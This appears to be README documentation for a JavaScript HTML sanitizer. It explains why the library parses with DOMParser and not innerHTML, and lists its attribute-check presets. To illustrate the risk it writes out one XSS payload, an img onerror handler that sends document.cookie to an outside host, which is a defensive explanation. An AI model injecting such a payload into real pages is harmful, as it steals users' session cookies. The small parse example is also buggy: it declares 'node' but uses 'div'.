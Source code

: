 **Note!** The root element will be passed to the `stringify` function, and the CONTENT of the element will be expected as a result.

```javascript
const input = document.createElement('div');

input.innerHTML = '<span>span</span>';

stringify(input); // '<span>span</span>' => OK
stringify(input); // '<div><span>span</span></div>' => WRONG
```

---

## Why not `document.createElement(...)`

Because by processing the string like this:

```javascript
const parse = str => {
  const node = document.createElement('div');
  div.innerHTML = str;

  return div;
};
```

In fact, this function, having received a special payload, will RUN it. The following payload will send a network request:
`<img/src/onerror="fetch('www.site.com?q='+encodeURI(document.cookie))">`

And in the case of using DOMParser, the code does not run.

---

## Attributes checks preset list

- `%correct-link%` - only currect link
- `%http-link%` - only http link
- `%https-link%` - only https link
- `%ftp-link%` - only ftp link
- `%https-link-without-search-params%` - delete all search params and force https protocol
- `%http-link-without-search-params%` - delete all search params and force https protocol
- `%same-https-origin%` - only link that lead to the same origin that is currently in `self.location.origin`. + force https protocol
- `%same-http-origin%` - only link that lead to the same origin that is currently in `self.location.origin`. + force http protocol

---

## Browser support

Although browser support is already over 97%, the specification for DOMParser is not yet fully established. [More details](https://caniuse.com/mdn-api_domparser_parsefromstring_html).

